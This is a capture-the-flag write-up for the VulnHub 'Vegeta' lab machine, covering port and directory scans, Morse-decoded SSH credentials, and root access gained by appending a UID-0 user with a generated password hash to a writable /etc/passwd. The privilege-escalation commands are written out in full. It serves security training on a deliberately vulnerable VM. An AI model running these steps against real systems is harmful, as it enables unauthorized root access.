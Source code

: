 ```yaml
---
title: Vulnhub - Vegeta
description: My writeup on Vegeta box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://static2.cbrimages.com/wordpress/wp-content/uploads/2020/04/perfected-super-saiyan-blue-vegeta.jpg)

Hi all, let's pwn it!

You can find the machine there > [Vegeta](https://www.vulnhub.com/entry/vegeta-1,501/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:54 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.34 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:55 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:31:30:67:3f:08:30:2e:6d:ae:e3:20:9e:bd:6b:ba (RSA)
|   256 7d:88:55:a8:6f:56:c8:05:a4:73:82:dc:d8:db:47:59 (ECDSA)
|_  256 cc:de:de:4e:84:a8:91:f5:1a:d6:d2:a6:2e:9e:1c:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it:

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/img (Status: 301)
/login.php (Status: 200)
/image (Status: 301)
/admin (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/bulma (Status: 301)
```

`/bulma` gives us a .wav file let's download it and listen to it.

```
$ wget -q http://192.168.1.7/bulma/hahahaha.wav
```

All we can here is "beep boop" that's probably morse code. I found an online [decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![](https://i.imgur.com/SZP2Cig.png)

`TRUNKS PASSWORD : US3R(S IN DOLLARS SYMBOL)` 

That's probably a system user and his password. Let's give it a go with ssh:

```
$ sshpass -p 'u$3r' ssh trunks@$ip 'ls -la'
total 28
drwxr-xr-x 3 trunks trunks 4096 Jun 28 21:32 .
drwxr-xr-x 3 root   root   4096 Jun 28 17:37 ..
-rw------- 1 trunks trunks  382 Jun 28 21:36 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28 17:37 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28 17:37 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28 19:45 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28 17:37 .profile
```

Perfect, now privesc is simple. We have to exploit writable `/etc/passwd`:

```
trunks@Vegeta:~$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28 21:23 /etc/passwd
```

Let's generate a password first:

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now the format of `/etc/passwd` is this:

`r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash`

Let's add it:

```
trunks@Vegeta:~$ echo 'r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash' >> /etc/passwd
trunks@Vegeta:~$ su - r000t
Password: 
root@Vegeta:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

The flag:

```
root@Vegeta:~# cat root.txt 

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |


Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw
```

Silly :P






